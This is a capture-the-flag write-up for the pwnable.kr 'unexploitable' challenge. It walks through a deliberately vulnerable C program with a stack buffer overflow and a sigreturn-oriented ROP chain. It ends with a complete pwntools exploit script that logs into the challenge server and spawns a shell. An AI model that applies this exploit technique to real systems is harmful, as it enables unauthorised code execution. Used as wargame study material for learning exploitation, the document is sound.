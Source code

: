 
First lets see what we are working on

```c
#include <stdio.h>
void main(){
        // no brute forcing
        sleep(3);
        // exploit me
        int buf[4];
        read(0, buf, 1295);
}
```

Seems like a simple challenge, We have a buffer of 4 integers, but we can reads 1295 bytes into it.
So lets overflow the buffer and override the return address!
but, what should we put in there?

![[Pasted image 20241017010006.png]]

Problems:
- ASLR enabled which means we cannot jump to our own buffer cause its address is unkown
- NX is enabled, which means even if we found a way to leak an address in the stack, we cant put shellcode and jump

So in this case we have to find a gadget!
I first thought maybe we can leak libc and jump to system, but after running `ROPGadget` I quickly saw:

![[Pasted image 20241017010223.png]]

Its a really good gadget for us, but we still cant control any register,
In order to run a shell, we need to control `rax` and  `rdi`

First i tried to figure out how can i get arbitrary syscall, which means i need to control `rax`
this part wasnt that hard, lets figure how to override the return address:

![[Pasted image 20241017010546.png]]

![[Pasted image 20241017010611.png]]

So we need to put 24 bytes, and the next 8 bytes will be the ret.
Now we can do something like that:

`24 bytes -> Address to main -> Address to syscall gadget`

Why are we umping to main again?
Since `rax` is the return value in 64bit calling convention,
We can re-run main, but now main return address is the syscall gadget,
in main we are calling for read, so the amount of bytes we will put in this read, will be `rax`

Now we can call any syscall we want, but we have control only over the stack and not the registers..
Sounds like a perfect time to call `Sigreturn` !

So our first payload needs to be:
`24 bytes -> Address to main -> Address to syscall gadget -> sigreturn frame`

And since we are jumping to main again, the second payload is:
`15*'a'`

The sigreturn frame looks like:
```python
frame.rax = 59
frame.rdi = ??
frame.rsi = 0x0
frame.rdx = 0x0
frame.rip = syscall_gadget
```

We are close, we just need to figure out how can we find and address which points to `/bin/sh`
I ran: 
![[Pasted image 20241017011214.png]]
and then:
![[Pasted image 20241017011239.png]]
And i found this string in our binary:
![[Pasted image 20241017011301.png]]

So we can just create a symlink from `/bin/sh` to `8` and then we can put in `rdi` the address  `0x600036` 

and we won!

```python
#!/usr/bin/python3

from pwn import *
import time

context.arch = 'amd64'
binary = ELF("./unexploitable")

syscall_gadget  = 0x400560
read_addr = binary.sym['main']
size = 24

frame = SigreturnFrame(kernel='amd64')

  
frame.rax = 59
frame.rdi = 0x600036
frame.rsi = 0x0
frame.rdx = 0x0
frame.rip = syscall_gadget

s = ssh(host="pwnable.kr", port=2222, user='unexploitable', password='guest')
context.ssh_session = s
s.set_working_directory()

unexploitable_link = SSHPath('unexploitable')
unexploitable_link.symlink_to('/home/unexploitable/unexploitable')

sh = SSHPath('8')
sh.symlink_to('/bin/sh')

p = s.process(["./unexploitable"])

payload = b'a'*size + p64(read_addr) + p64(syscall_gadget) + bytes(frame)
p.sendline(payload)
time.sleep(5)

p.sendline(b'a'*14)
p.interactive()
```

![[Pasted image 20241017011906.png]]